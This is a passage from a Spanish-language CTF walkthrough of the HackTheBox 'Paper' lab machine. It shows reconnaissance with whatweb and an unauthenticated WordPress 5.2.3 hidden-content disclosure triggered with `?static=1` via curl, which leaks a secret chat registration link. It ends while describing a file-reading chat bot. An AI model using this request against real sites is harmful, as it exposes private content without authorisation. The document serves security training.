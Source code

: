 ```plaintext
❯ whatweb http://office.paper
http://office.paper [200 OK] Apache[2.4.37][mod_fcgid/2.3.9], Bootstrap[1,5.2.3], Country[RESERVED][ZZ], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9], IP[10.10.11.143], JQuery, MetaGenerator[WordPress 5.2.3], OpenSSL[1.1.1k], PHP[7.2.24], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Blunder Tiffin Inc. &#8211; The best paper company in the electric-city Scranton!], UncommonHeaders[link,x-backend-server], WordPress[5.2.3], X-Backend[office.paper], X-Powered-By[PHP/7.2.24]
```

Vemos que está utilizando una version de wordpress desactualizada, más especificamente, la versión 5.2.3, por lo que posiblemente tenga alguna vulnerabilidad de la que nos podamos aprovechar. Con unas cuantas busquedas vemos que tiene un fallo de seguridad que permite a los usuarios no autenticados ver contenido oculto.

# Explotación

Unicamente tendremos que añadir `?static=1` a la URL para que nos muestre el contenido oculto de la misma. Voy a utilizar la herramienta `curl` y `html2text` para hacer la petición y ver la respuesta.

```plaintext
❯ curl -s 'http://office.paper?static=1' | html2text
# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY
```

Vemos que existe otra página web con un dominio distinto al anterior, parece ser que es utilizada como un chat entre trabajadores, vamos a introducir el dominio junto a la dirección IP en el archivo `/etc/hosts`

```plaintext
❯ echo "10.10.11.143 chat.office.paper" | sudo tee -a /etc/hosts
```

![Inicio de Sesión]({{ 'assets/img/commons/paper/web_chat.png' | relative_url }}){: .center-image }
_Inicio de Sesión_

La página nos indica que para registrarnos es necesario hacerlo desde una URL secreta, esta URL la encontramos en el mensaje anterior que encontramos 

![Registro en el chat]({{ 'assets/img/commons/paper/registro.png' | relative_url }}){: .center-image }
_Registrandonos en el chat_

Al registrarnos e iniciar sesión nos damos cuenta que hemos sido añadidos a un chat, en él vemos que uno de los usuarios del chat ha creado un bot con diversas funciones. Las funciones que más nos llaman la atención son que podemos listar arhivos y leerlos apartir de un directorio, si intentamos interactuar con él mandando un mensaje por el chat veremos que no podemos ya que la sala es solo de lectura, sin embargo, somos capaces de enviarle un mensaje privado.

![Chat con el bot]({{ 'assets/img/commons/paper/chat_bot.png' | relative_url }}){: .center-image }
_Chat con el bot_
